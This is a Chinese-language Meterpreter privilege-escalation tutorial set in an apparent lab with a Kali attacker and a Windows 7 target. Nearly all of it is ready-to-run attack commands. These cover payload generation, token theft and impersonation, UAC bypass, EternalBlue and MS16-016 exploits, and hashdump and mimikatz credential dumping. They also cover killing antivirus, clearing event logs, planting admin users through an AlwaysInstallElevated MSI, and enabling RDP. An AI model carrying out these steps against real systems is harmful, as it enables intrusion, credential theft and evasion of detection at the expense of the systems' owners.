








#               meterpreter提权

------

## 环境搭建

攻击主机:

kali  linux   172.16.243.132


目标主机:

win 7           172.168.243.131


## 上传webshell连接

```
msfvenom -p windows/x64/meterpreter/bind_tcp rhost=172.16.243.132 -f exe > shell.exe

use exploit/multi/handler 

set payload windows/x64/meterpreter/bind_tcp

set rhost 172.16.243.132

run
```


正向连接shell成功，通道打开


## meterpreter基础提权

------

### 基础提权

我们在通道会话中可以使msf自动选择合适的方式进行提升权限

```
getsystem
```

自动提权成功


查看当前的用户权限名称

```
getuid
```

此时为SYSTEM管理员权限


盗取用户进程令牌

```
这个时候，如果我们此目标机属于某个域环境内，并且有域管理员运行的进程，我们就可以从一个指定的进程PID中窃取一个域管理员组令牌，做一些有意思的事（如：添加一个域账户，并把域账户添加到域管理员组中）。
在Meterpreter会话执行ps命令查看目标机当前进程：
假设此处看到了一个进程，运行账户是域管理员，我们可以再第一栏找到对应的进程PID
```


```
ps                               ###查看目标当前进程

steal_token    PID进程号          ###盗取目标用户执行的进程号
```

可以看到PID为2548的进程以域管理员的用户来执行，我们通过盗取该用户执行的令牌来短暂提升权限



可以看到当前的用户是域管理员用户


当为管理员权限时，我们可以进入cmd中添加新用户并将其加入当地管理员用户组。

```
net user   用户名     密码      /add
net localgroup      Administrators    用户    /add
```


然后开启远程桌面服务

```
run getgui  -e
```


使用rdesktop命令去连接目标主机

```
rdesktop   -u   用户    -p  密码    目标主机ip地址
```


#### bypassuac

内置多个pypassuac脚本，原理有所不同，使用方法类似，运行后返回一个新的会话，需要再次执行getsystem获取系统权限

如:

```
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use windows/local/bypassuac_vbs
use windows/local/ask
```


下面使用bypassuac.rb脚本:

```
msf > use exploit/windows/local/bypassuac
msf > set SESSION 2
msf > run
```


#### 内核提权

连接shell后，利用enum_patches模块进行补丁信息收集

```
use    post/windows/gather/enum_patches     ###查看补丁信息
use    exploit/winodws/xxxxxxxxxxxxxxx      ###根据具体的补丁信息来使用具体的payload荷载
set    session     会话数                    ###设置之前的shell会话数
```


### 溢出漏洞模块提权

```
一般来说webshell对应的web服务的权限是很低的，一般都是user权限的，但也遇到过某些服务器执行后就直接是system最高权限。像这种情况一般直接加用户。如果权限较低，我们要把它提升到system权 - Windows最高权限，黑客一般通过提权的EXP程序进行提权，我们会在后续的实验里介绍。
当然，在MSF下调用溢出漏洞模块提权也是个好办法。
缓冲区溢出：
缓冲区是用户为程序运行时在计算机中申请的一段连续的内存，它保存了给定类型的数据。缓冲区溢出指的是一种常见且危害很大的系统攻击手段，通过向程序的缓冲区写入超出其长度的内容，造成缓冲区的溢出，从而破坏程序的堆栈，使程序转而执行其他的指令，以达到攻击的目的。更为严重的是，缓冲区溢出攻击占了远程网络攻击的绝大多数，这种攻击可以使得一个匿名的Internet用户有机会获得一台主机的部分或全部的控制权！由于这类攻击使任何人都有可能取得主机的控制权，所以它代表了一类极其严重的
```

由于目标主机开放139,445端口，可能存在ms17-010漏洞，这里用相关模块对其进行攻击

```
use   exploit/windows/smb/ms17_010_eternablue

set    payload   windows/x64/meterpreter/reverse_tcp

set     rhosts     172.16.243.131
```

 

ms17-010漏洞利用成功，管道打开，建立连接




下面我们可以将当前会话迁移到SYSTEM权限进行的进程，使用migrate命令进行迁移

```
migrate  2916
```




此时的权限就应该是GOD/Administrator域管理员权限


#### 利用ms16-010溢出漏洞进行提权

```
MS16-016这个漏洞是由于Windows中的WebDAV未正确处理WebDAV客户端发送的信息导致的。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。
此漏洞存在于在：
Windows Vista SP2、Windows Server 2008 x86 & x64、Windows Server 2008 R2 x64、Windows 7 x86 & x64、Windows 8.1 x86 & x64。
系统中提升权限至系统权限，以下系统中导致系统拒绝服务（蓝屏）：
Windows Server 2012、Windows Server 2012 R2、Windows RT 8.1、Windows 10
```


当我们反弹目标站点的shell后，可以利用ms16-016模块进行提权

```
use    exploit/windows/local/ms16_010_webdav    ###选择ms16_016模块

set    session   1                              ##选定之前反弹shell的会话
```




攻击成功后，会显示某个PID进程的进程权限进行权限提升，但是整个用户权限却并没有提升，这里通过对目标进程进行迁移实现权限提升

```
migrate   PID进程号
```


### 后续提权

#### 信息收集

```
run   post/windows/gather/checkvm                           ##判断是否为虚拟机

run   kaillav                                                                       ##杀死目标主机运行杀毒软件

run  post/windows/gather/enum_applications          ##获取安装软件信息

run  post/windows/gather/dumplinks                         ##获取最近的文件操作
```


#### hash与明文密码读取

```
hashdump

run  post/windows/gather/smart_hashdump    (管理员权限执行)
```


如下我们就得到了本地账户的hash值，是用NTLM加密得到的明文




下面加载mimikatz/kiwi模块

```
load kiwi
```


下面是相关命令

```
reds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码

creds_all
#该命令可以列举系统中的明文密码

kiwi_cmd
kiwi_cmd 模块可以让我们使用mimikatz的全部功能，该命令后面接 mimikatz.exe 的命令
kiwi_cmd sekurlsa::logonpasswords

```


列出了所有的lsa的hash值




#### 清理痕迹

```
clearev
```

可以看到主要从应用程序、系统和安全模块这三个方面来清理


### AlwayslnstallElevated提权

#### 生成MSI安装文件

假设我们拿到Meterpreter会话后并没能通过一些常规方式取得SYSTEM权限，AlwaysInstallElevated提权可能会为我们带来一点希望。
AlwaysInstallElevated是微软允许非授权用户以SYSTEM权限运行安装文件(MSI)的一种设置。然而，给予用于这种权利会存在一定的安全隐患，因为如果这样做下面两个注册表的值会被置为"1"：

```
[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001 
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001
```

 

使用如下命令查询这两个键值取值

```
reg query   HKEY_CURRENT_USER\SOFTWARE\POLICES\MICROSOFT\WINDOWS\INSTALLER

 reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```


我们这里的查询是报错的。
注意：如果这条命令出错类似于：The system was unable to find the specified registry key or value或者：错误: 系统找不到指定的注册表项或值。
这可能是组策略里AlwaysInstallElevated没有被定义，因此不存在相关联的注册表项


现在我们假设AlwaysInstallElevated已经启用了，我们可以利用msfvenom工具来生成一个在目标机器上增加管理员用户的MSI安装文件

```
msfvenom -p windows/adduser USER=msi PASS=Password12345 -f msi -o /tmp/adduser.msi
```


将生成的msi文件上传到目标主机上

```
upload   /home/haoyun/adduser.msi   c:\\adduser.msi
```


上传msi文件后，进入shell使用msiexec运行msi文件

```
msiexec  /quite  /qn  /i   c:\adduser.msi
/quiet:安装过程中禁止向用户发送消息
/qn:不使用GUI
/i:安装程序

```


运行成功后，验证是否添加msi用户到管理员用户组中

```
net localgroup  adminstrators
```

可以看到目标主机本地用户组中管理员用户组中存在msi用户,这样我们就有个已知的管理员用户



注意:使用msvenom创建MSI文件时使用了always_install_elevated模块，那么在安装过程中会失败。这是因为操作系统会阻止未注册的安装。

下面就可以利用该用户登录访问一些远程主机服务

比如登录目标机器的远程桌面服务

```
rdesktop  -u msi  -p Password12345  172.16.243.132

```


连接成功




如果没有开启远程服务，可以利用以下命令开启

```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```


### 窃取令牌，假冒令牌

#### 假冒令牌

```
use    incognito
//这个模块是用来窃取令牌，模仿令牌的.令牌相当于cookie.

windows中有两种令牌,一中是Delegation Token，是交互式登录（比如登录进去系统或者通过远程桌面连接到系统）创建的.另一种是Impersonmate Token（模仿令牌），它是为非交互式会话创建的

list_tokens  -u
//列出当前令牌

impersonate_token 'NT AUTHORITY\SYSTEM' 		
#假冒SYSTEM token

impersonate_token NT\ AUTHORITY\\SYSTEM		
#不加单引号 需使用\\

execute -f cmd.exe -i –t         或者     shell            
# -t 使用假冒的token 执行
                                               
rev2self   										#返回原始token
```


#### 窃取令牌

stealen_token     <pid值>     窃取指定进程的token 

drop_token                          删除窃取的token
